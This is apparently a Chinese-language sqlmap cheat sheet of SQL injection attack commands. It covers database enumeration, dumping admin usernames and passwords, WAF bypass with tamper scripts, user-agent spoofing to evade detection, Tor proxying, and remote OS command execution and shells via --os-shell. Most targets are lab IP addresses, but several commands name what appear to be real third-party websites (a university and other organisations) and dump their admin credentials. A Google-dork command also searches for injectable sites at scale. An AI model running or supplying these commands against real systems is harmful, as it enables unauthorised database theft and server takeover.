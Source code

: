 Sqlmap
======
1. 注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2

2. 需要数据库
    --dbs
3. 得到数据库名称xxx，需要表： 
    -D xxx --tables
4. 得到表名xxxx，需要列：
    -D xxx -T xxxx --columns
		
	Note:
           1) 指定列的范围从2－4 : python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0
			
5. 得到列名有admin，password，需要值：
    -D xxx -T xxxx -C "admin,password" --dump
		
	Note:
	1) --dump-all 导出所有表，所有数据
				
6. 还需要绕waf
    python sqlmap.py -u "http://192.168.159.1/news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py"
	相同的脚本还有：
			§ space2morehash.py
			§ space2hash.py
			§ base64encode.py
			§ charencode.py
		
		
7. 注入被识别出来是工具，断开咋办
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"
		c. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3
	8. 让sqlmap自动跑post注入，填表单
		sqlmap -u "http://www.xxx.com/login.asp" --forms
	9. 看看当前用户是不是dba
		○ --is-dba
		○ -a
		
		Note:    -a下面的那些命令是用来看用户，看主机，看权限的
	10. 列举数据库用户
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0
	11. 列举数据库用户密码
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0
		
	12. 查看用户权限
		python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0
		
	13. 使用基本认证
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3
	14. 使用Digest认证
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3
	15. 使用代理,配合TOR
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"
		
	16. 使用多线程猜解
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3
	17. 绕过动态检测,直接指定有注入点的参数
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id"
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"
	18. 指定数据库,绕过SQLMAP的自动检测
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"
		* MySQL
		* Oracle
		* PostgreSQL
		* Microsoft SQL Server
		
	19. 指定操作系统,绕过SQLMAP自动检测
		python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"
		* Linux
		* Windows
		
	20. 自定义payload
		Options: --prefix and --postfix
		python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"
	21. --os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell
		○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig
		○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-shell
		○ --file-xx 牛逼的文件操作命令
	22. sql query
		a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
		b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1
	23. 选择sqlmap默认选项
		--batch 
		
		
	24. 不那么常用的
		a. 只列出用户自己新建的数据库和表的内容
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0
		b. 保存和恢复会话
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"
		c. 保存选项到INC配置文件
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
		d. 页面比较
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v
		e. 排除网站的内容
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"
		f. 多语句测试，php内嵌函数mysql_query(),不支持多语句
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1
		g. union注入测试
			python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1
		h. unionz注入配合orderby
			python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs
		i. fingerprint
			python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
			python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b
		j. SQLMAP中Google搜索注入
			python sqlmap.py  -g "inurl:php?id="
		k. SQLMAP伪静态注入
			i. 查找数据库
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" --dbs
			ii. 通过1中的数据库查找对应的表 (假如通过1，得到的是dataname)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname --tables
			iii. 通过2中的数据表得到字段(假如得到的是tablename表)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename --columns
			iv. 通过3得到字段值(假如从3中得到字段id，password)
				python sqlmap.py -u "http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html" -D dataname -T tablename -C "password" --dump
				
		l. SQLMAP用于Access数据库注入
			i. 猜解是否能注入
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7"
			ii. 猜解表
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --tables
			iii. 根据猜解的表进行猜解表的字段(假如通过2得到了admin这个表)
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --columns -T admin
			iv. 根据字段猜解内容(假如通过3得到字段为username和password)
				python sqlmap.py -u "http://www.stronkin.com/en/CompHonorBig.asp?id=7" --dump -T admin -C "username,password"
		m. SQLMAP用于Cookie注入
			i. cookie注入，猜解表
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
			ii. 猜解字段，(通过1的表猜解字段，假如表为admin)
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --columns -T admin --level 2
			iii. 猜解内容
				python sqlmap.py -u "http://www.ntjx.org/jsj/shownews.asp" --cookie "id=31" --dump -T admin -C "username,password" --level 2
				
